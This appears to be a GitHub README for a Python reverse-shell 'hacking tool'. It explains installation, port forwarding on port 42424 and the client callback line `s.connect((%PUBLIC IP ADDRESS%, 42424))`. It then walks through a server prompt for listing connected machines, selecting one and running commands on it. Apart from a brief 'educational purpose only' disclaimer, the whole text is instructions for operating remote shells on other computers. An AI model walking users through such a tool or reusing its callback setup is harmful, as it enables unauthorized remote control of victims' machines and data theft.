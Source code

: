 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## Installation 
type in the command line `pip install -r requirements.txt` to install all required modules

## How to use
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.

## Client
make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`

## Using the tool
start server.py and wait for connection.
to see of all your connections type `snake> list` in the interacive prompt.
to send commands to one of your connections type `select` and the ID number of the connection.
E.X.:
`snake> select 0`
when you are in the reverse shell of one of your connection' you can type `getos` to see what OS is running on your connection machine.
if you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.
if you want to quit from the entire program type `shutdown` in the interactive prompt.
